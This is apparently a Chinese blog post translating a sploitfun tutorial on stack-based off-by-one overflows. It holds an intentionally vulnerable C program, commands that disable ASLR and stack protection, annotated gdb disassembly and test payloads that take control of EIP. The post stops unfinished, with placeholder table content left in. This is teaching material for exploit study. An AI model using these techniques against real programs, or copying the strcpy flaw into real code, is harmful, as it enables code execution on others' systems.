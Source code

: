 ```yaml
---
layout: post
title: 基于栈的Off-By-One漏洞
excerpt: "sploitfun系列教程之1.3基于栈的Off-By-One漏洞"
categories: [sploitfun系列教程]
comments: true
---
```


#### 什么是off by one？
将源字符串复制到目标缓冲区可能会导致off by one

1. 源字符串长度等于目标缓冲区长度。

当源字符串长度等于目标缓冲区长度时，单个NULL字节将被复制到目标缓冲区上方。这里由于目标缓冲区位于堆栈中，所以单个NULL字节可以覆盖存储在堆栈中的调用者的EBP的最低有效位（LSB），这可能导致任意的代码执行。

漏洞代码：
```
//vuln.c
#include <stdio.h>
#include <string.h>

void foo(char* arg);
void bar(char* arg);

void foo(char* arg) {
 bar(arg); /* [1] */
}

void bar(char* arg) {
 char buf[256];
 strcpy(buf, arg); /* [2] */
}

int main(int argc, char *argv[]) {
 if(strlen(argv[1])>256) { /* [3] */
  printf("Attempted Buffer Overflow\n");
  fflush(stdout);
  return -1;
 }
 foo(argv[1]); /* [4] */
 return 0;
}
```
编译：
```
echo 0 > /proc/sys/kernel/randomize_va_space
gcc -fno-stack-protector -z execstack -mpreferred-stack-boundary=2 -o vuln vuln.c -m32	#注意加上-m32 ，64位的mpreferred-stack-boundary是4到12之间
chmod 777 vuln
```
上述漏洞代码注释的第[2]部分是可能发生off by one溢出的地方。目标缓冲区长度为256，因此长度为256字节的源字符串可能导致任意代码执行。

#### 如何执行任意代码执行？

使用称为“EBP覆盖”的技术实现任意代码执行。如果调用者的EBP位于目标缓冲区之上，则在strcpy之后，单个NULL字节将覆盖调用者EBP的LSB。要了解更多关于off by one,让我们反汇编漏洞代码并绘制它的堆栈布局。

main函数的汇编代码如下
```
(gdb) disassemble main
Dump of assembler code for function main:
 //Function Prologue
 0x08048497 <+0>: push %ebp                    //backup caller's ebp
 0x08048498 <+1>: mov %esp,%ebp                //set callee's (main) ebp to esp
 0x0804849a <+3>: push %edi                    //backup EDI
 0x0804849b <+4>: sub $0x8,%esp                //create stack space
 0x0804849e <+7>: mov 0xc(%ebp),%eax           //eax = argv
 0x080484a1 <+10>: add $0x4,%eax               //eax = &argv[1]
 0x080484a4 <+13>: mov (%eax),%eax             //eax = argv[1]
 0x080484a6 <+15>: movl $0xffffffff,-0x8(%ebp) //String Length Calculation -- Begins here
 0x080484ad <+22>: mov %eax,%edx
 0x080484af <+24>: mov $0x0,%eax
 0x080484b4 <+29>: mov -0x8(%ebp),%ecx
 0x080484b7 <+32>: mov %edx,%edi
 0x080484b9 <+34>: repnz scas %es:(%edi),%al
 0x080484bb <+36>: mov %ecx,%eax
 0x080484bd <+38>: not %eax
 0x080484bf <+40>: sub $0x1,%eax               //String Length Calculation -- Ends here
 0x080484c2 <+43>: cmp $0x100,%eax             //eax = strlen(argv[1]). if eax > 256
 0x080484c7 <+48>: jbe 0x80484e9 <main+82>     //Jmp if NOT greater
 0x080484c9 <+50>: movl $0x80485e0,(%esp)      //If greater print error string,flush and return.
 0x080484d0 <+57>: call 0x8048380 <puts@plt>   
 0x080484d5 <+62>: mov 0x804a020,%eax          
 0x080484da <+67>: mov %eax,(%esp)             
 0x080484dd <+70>: call 0x8048360 <fflush@plt>
 0x080484e2 <+75>: mov $0x1,%eax              
 0x080484e7 <+80>: jmp 0x80484fe <main+103>
 0x080484e9 <+82>: mov 0xc(%ebp),%eax          //argv[1] <= 256, eax = argv
 0x080484ec <+85>: add $0x4,%eax               //eax = &argv[1]
 0x080484ef <+88>: mov (%eax),%eax             //eax = argv[1]
 0x080484f1 <+90>: mov %eax,(%esp)             //foo arg
 0x080484f4 <+93>: call 0x8048464              //call foo
 0x080484f9 <+98>: mov $0x0,%eax               //return value

 //Function Epilogue
 0x080484fe <+103>: add $0x8,%esp              //unwind stack space
 0x08048501 <+106>: pop %edi                   //restore EDI
 0x08048502 <+107>: pop %ebp                   //restore EBP
 0x08048503 <+108>: ret                        //return
End of assembler dump.
(gdb) disassemble foo
Dump of assembler code for function foo:
 //Function prologue
 0x08048464 <+0>: push %ebp                    //backup caller's (main) ebp
 0x08048465 <+1>: mov %esp,%ebp                //set callee's (foo) ebp to esp
 0x08048467 <+3>: sub $0x4,%esp                //create stack space
 0x0804846a <+6>: mov 0x8(%ebp),%eax           //foo arg
 0x0804846d <+9>: mov %eax,(%esp)              //bar arg = foo arg
 0x08048470 <+12>: call 0x8048477              //call bar

 //Function Epilogue 
 0x08048475 <+17>: leave                       //unwind stack space + restore ebp
 0x08048476 <+18>: ret                         //return
End of assembler dump.
(gdb) disassemble bar
Dump of assembler code for function bar:
 //Function Prologue
 0x08048477 <+0>: push %ebp                    //backup caller's (foo) ebp
 0x08048478 <+1>: mov %esp,%ebp                //set callee's (bar) ebp to esp
 0x0804847a <+3>: sub $0x108,%esp              //create stack space
 0x08048480 <+9>: mov 0x8(%ebp),%eax           //bar arg
 0x08048483 <+12>: mov %eax,0x4(%esp)          //strcpy arg2
 0x08048487 <+16>: lea -0x100(%ebp),%eax       //buf
 0x0804848d <+22>: mov %eax,(%esp)             //strcpy arg1
 0x08048490 <+25>: call 0x8048370 <strcpy@plt> //call strcpy

 //Function Epilogue
 0x08048495 <+30>: leave                       //unwind stack space + restore ebp
 0x08048496 <+31>: ret                         //return
End of assembler dump.
(gdb)
```

#### 堆栈布局（这个图是低地址在下，高地址在上！！注意）
![image](https://note.youdao.com/favicon.ico)


header 1 | header 2
---|---
row 1 col 1 | row 1 col 2
row 2 col 1 | row 2 col 2



当我们已经知道256字节的用户输入，用空字节可以覆盖foo的EBP的LSB。所以当foo的存储在目标缓冲区“buf”之上的EBP被一个NULL字节所覆盖时，ebp从0xbffff2d8变为0xbffff200。从堆栈布局我们可以看到堆栈位置0xbffff200是目标缓冲区“buf”的一部分，由于用户输入被复制到该目标缓冲区，攻击者可以控制这个堆栈位置（0xbffff200），因此他控制指令指针（eip ）使用他可以实现任意代码执行。让我们通过发送一系列256的“A”来测试它。

**测试步骤1：EBP是否覆盖，从而可能覆盖返回地址？**

```bash
gdb vuln
gdb-peda$ r `python -c 'print "A"*256'`
gdb-peda$ p/x $eip
```
结果
```
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x41414141 in ?? ()
Missing separate debuginfos, use: debuginfo-install glibc-2.17-292.el7.i686
gdb-peda$ p/x $eip
$1 = 0x41414141
```
**测试步骤2：距离目标缓冲区的偏移是多少？**
```
r `python -c 'print "A"*212 + "C"*4+ "A"*40'`
太困了，回家休息会再看
```